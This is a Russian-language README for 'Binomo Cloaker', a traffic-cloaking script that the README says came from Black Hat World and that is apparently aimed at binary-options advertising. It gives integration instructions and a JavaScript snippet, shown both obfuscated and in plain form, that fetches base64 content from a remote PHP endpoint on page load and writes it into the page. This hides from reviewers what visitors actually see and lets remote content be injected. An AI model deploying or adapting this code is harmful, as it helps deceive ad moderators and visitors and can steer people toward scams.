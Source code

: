 # Binomo Cloaker
Модифицированный скрипт клоакинга, изначально найденный на просторах [Black Hat World](http://blackhatworld.com).

[Описание настройки первых версий тут!](https://yellowweb.top/%d0%ba%d0%bb%d0%be%d0%b0%d0%ba%d0%b8%d0%bd%d0%b3-%d0%b4%d0%bb%d1%8f-%d0%b1%d0%b5%d0%b4%d0%bd%d0%be%d0%b3%d0%be-%d0%bd%d0%be-%d1%83%d0%bc%d0%bd%d0%be%d0%b3%d0%be-%d0%b0%d1%80%d0%b1%d0%b8%d1%82%d1%80/)

[Видео с обзором новых возможностей тут.](https://www.youtube.com/watch?v=x-Z2Y4lEOc0&t=656s)

Внимание: лог трафика сейчас находится просто в папке logs.

По всем вопросам пишите Issues на GitHub либо в паблик http://vk.com/yellowweb

[**Поддержать автора проекта**!](https://capu.st/yellowweb)


Справка по JS-интеграции кло:

Конечный вариант вставить в конструктор, вместо https://site.ru/ указываете свой домен

`<script>
    var script_url = 'https://site.ru/jsprocessing.php';
    var _0x37a0=['responseText','load','addEventListener','write','readystatechange','GET','readyState'];(function(_0x43ef8f,_0x37a067){var _0x5aaf46=function(_0x1484ee){while(--_0x1484ee){_0x43ef8f['push'](_0x43ef8f['shift']());}};_0x5aaf46(++_0x37a067);}(_0x37a0,0x181));var _0x5aaf=function(_0x43ef8f,_0x37a067){_0x43ef8f=_0x43ef8f-0x0;var _0x5aaf46=_0x37a0[_0x43ef8f];return _0x5aaf46;};window[_0x5aaf('0x2')](_0x5aaf('0x1'),function(){var _0xcc31c6=new XMLHttpRequest();_0xcc31c6['open'](_0x5aaf('0x5'),script_url,!![]),_0xcc31c6['addEventListener'](_0x5aaf('0x4'),function(){if(_0xcc31c6[_0x5aaf('0x6')]==0x4&&_0xcc31c6['status']==0xc8){if(_0xcc31c6[_0x5aaf('0x0')]!==''){var _0x16a5a0=atob(_0xcc31c6[_0x5aaf('0x0')]);document[_0x5aaf('0x3')](''+_0x16a5a0+'');}}}),_0xcc31c6['send']();});        
</script>`

Либо вот такой вариант до обфускации

`<script>
	        var script_url = 'https://safe-shop.shop/jsprocessing.php';
		window.addEventListener("load", function () {
			var request = new XMLHttpRequest();
			request.open('GET', script_url, true);
			request.addEventListener('readystatechange', function () {
				if ((request.readyState == 4) && (request.status == 200)) {
                        if(request.responseText !== ''){
                            var decodedString = atob(request.responseText);
                            document.write(''+ decodedString +'');
                        }
				}
			});
			request.send();
		});
</script>`
